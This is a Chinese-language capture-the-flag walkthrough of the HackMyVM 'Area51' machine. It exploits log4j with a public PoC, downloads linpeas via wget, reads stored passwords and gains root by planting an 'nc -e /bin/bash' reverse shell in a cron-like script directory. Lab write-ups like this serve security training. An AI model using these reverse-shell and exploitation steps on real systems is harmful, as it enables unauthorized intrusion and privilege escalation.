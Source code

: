 ```yaml
---
title: 靶场—log4j
data: 2022-1-3
tags: 	
	- 靶场
---
```


来自于HMV的Area51靶场。难度属于中等

<!-- more -->

**探测靶机**

打靶场的第一个套路学就是利用nmap扫一下，看看有什么端口开放，发现开放了三个端口22，80，8080

![image-20220123163040570](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180927151.png)

从指纹上来看，80端口是一个http服务，22端口是ssh linux系统的远程终端，8080指纹貌似也是http协议的，是一个报错页面。

![image-20220123163143830](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930214.png)

![image-20220123163201633](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930905.png)

第一个套路用完，我们开始上第二个套路枚举路径

![image-20220123164307438](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930406.png)

访问下/note.txt网站

![image-20220123164333278](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930305.png)

翻译过来就是这里存在着log4j漏洞，直接用exp去打https://github.com/kozmer/log4j-shell-poc

![image-20220123165915324](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930726.png)

![image-20220123165941146](靶场——log4j.assets/image-20220123165941146.png)

使用EXP生成请求头

![image-20220206110336526](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930164.png)

发送过去，并且使用NC监听9001端口

![image-20220206110421914](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930764.png)

![image-20220206110404286](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930882.png)

发现是在docker里面，上传一个linpeas.sh搜集下信息

kali下载好linpeas.sh，使用python在linpeas.sh存在的目录开启一个服务器

```
python3 -m http.server 7788
```

监听这边的终端页面执行下载linpeas.sh

```
wget http://192.168.2.148:7788/linpeas.sh
```

执行linpeas.sh信息收集

```
chmod +x linpeas.sh
./linpeas.sh
```

发现一些目录查看下

![image-20220206110618368](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930967.png)

```
cat /var/tmp/.roger，查询到roger的密码
```

![image-20220206110657170](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930222.png)

```
使用ssh远程登录
ssh roger@10.35.0.101 
```

![image-20220206111220505](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930909.png)

![image-20220206111234673](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180930480.png)

收集到一个flag，继续收集发现了roger下有个kang

```
cat /etc/pam.d/kang，发现是kang的密码
su kang
```

![image-20220206111911261](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931554.png)

![image-20220206111941834](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931108.png)

发现kang的主目录发生了一些奇怪的事情，一个文件不断出现并消失

看起来像是kang用户创建了一个shell脚本，执行所有的.sh文件并删除它们

它是每2秒左右就删除文件，并且从输出的结果再看，uid居然是0，执行的，也就是root权限！思考了一下看看能不能写个rm进行然后再进行调用下，不就root权限了嘛

```
echo "echo test >/tmp/test" > test.sh
ls /tmp/test -l
echo "nc -e /bin/bash 10.17.0.249 4444" >test.sh
```

![image-20220206112038823](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931752.png)

新开一个终端页面开启监听

```
nc -nvlp 4444
python3 -c 'import pty;pty.spawn("/bin/bash")'
cd root
cat root.txt
```

![image-20220206112904960](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931759.png)

![image-20220206113002025](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202202180931526.png)

拿下！
